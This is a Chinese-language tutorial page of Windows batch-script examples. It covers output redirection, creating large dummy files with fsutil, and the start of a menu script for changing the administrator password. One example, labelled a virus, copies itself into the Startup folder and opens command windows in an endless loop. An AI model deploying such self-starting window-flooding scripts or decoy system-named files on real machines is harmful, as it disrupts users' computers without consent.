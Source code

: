 ```
ping -n 10 127.0.0.1 >nul 2>nul
echo congratulations!!! laji qingli over!
pause

// 对于>nul 2>nul是可以屏蔽一切屏幕的输出
//>nul 对于命令正确的使用，输出显示重定向为nul,清空了
//2>nul对于命令不正确时，还是会有输出，2>nul对因为命令错误输出内容进行屏蔽
```

## 案例2：创建指定大小的文件

```
d:
cd \
fsutil file createnew d:\sys.ini 40960000
fsutil file createnew d:\sys1.ini 40960000
fsutil file createnew d:\sys2.txt 4096
fsutil file createnew d:\sys3.txt 4096
fsutil file createnew d:\sys4.txt 4096
注：需要管理员的身份权限
```

## 案例3（病毒）：把源文件本身添加到开机启动项目中，即设置了开机自启

```
该文件取名：qq.bat

//开机自启循环
copy qq.bat "%userprofile%\「开始」菜单bai\程序\启动"
:d		//模块D,打开命令窗口，循环
start
goto d
```

## 案例4：程序运用

```
.bat文件

@echo off		//关闭回显，即关闭执行过程
color 0a		//颜色设置,调节颜色color ?
title huminv2.0 //标题设置
echo.			//空行

:menu
cls				//清屏
echo ----------------------
echo         菜单
echo		1.修改管理员密码
echo		2.定时关机
echo		3.退出本程序
echo------------------------

set /p num=你的选择是：		//设置变量，常用与在脚本中的互动赋值。
if "%num%"=="1" goto 1		//if-goto的用法
if "%num%"=="2" goto 2
if "%num%"=="3" goto 3
pause						//暂停
goto menu


:1							//区块
set /p u=请输入用户名：
```